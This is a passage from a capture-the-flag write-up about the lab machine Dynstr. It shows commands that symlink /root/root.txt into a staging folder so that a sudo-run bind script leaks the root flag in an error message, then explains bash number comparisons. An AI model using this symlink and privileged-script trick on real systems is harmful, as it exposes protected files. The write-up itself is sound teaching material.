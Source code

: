 It doesn’t like comparing the flag to a number, and prints the flag in the error message. When InfoSecJack got first blood, this was the technique he used.

Similarly, shortcutting `named-checkconf` to the flag will print all but the last two characters in it’s error message:

```

bindmgr@dynstr:/tmp$ cd $(mktemp -d)
bindmgr@dynstr:/tmp/tmp.TTFzU6A8E7$ echo 1000 > .version
bindmgr@dynstr:/tmp/tmp.TTFzU6A8E7$ ln -s /root/root.txt named-checkconf
bindmgr@dynstr:/tmp/tmp.TTFzU6A8E7$ sudo bindmgr.sh 
sudo: unable to resolve host dynstr.dyna.htb: Name or service not known
[+] Running /usr/local/bin/bindmgr.sh to stage new configuration from /tmp/tmp.TTFzU6A8E7.
[+] Creating /etc/bind/named.conf.bindmgr file.
[+] Staging files to /etc/bind/named.bindmgr.
[+] Checking staged configuration.
[-] ERROR: The generated configuration is not valid. Please fix following errors: 
    /etc/bind/named.bindmgr/named-checkconf:1: unknown option '5dd462205002e72de6951639697290...'
    /etc/bind/named.conf.bindmgr:3: unexpected token near end of file

```

#### More Than You Even Wanted To Know About Bash Number Comparisons

You have to get a bit lucky for this one to work, as it won’t display for all flags. When I originally solved this, the leak worked, and I got the notes from just above. When verifying it months later for this post, it didn’t and that’s because the newly random `root.txt` started with `f`. The flag needs to start with a digit for this path.

I’ll use a dummy command on my local console that’s the same check from Dynstr:

```

oxdf@parrot$ if [[ "1001" -le "1000" ]]; then echo "less"; else echo "more"; fi
more

```

If “1001” is less than “1000”, it’ll print “less”, else it’ll print “more”. In this case, as 1001 is greater than 1000, it prints “more”.

To map this to Dynstr, the first string would be what’s in the local `.version` and the second is what’s in the master version.

If I go to 999 for the first one, it prints less:

```

oxdf@parrot$ if [[ "999" -le "1000" ]]; then echo "less"; else echo "more"; fi
less

```

All as expected so far.
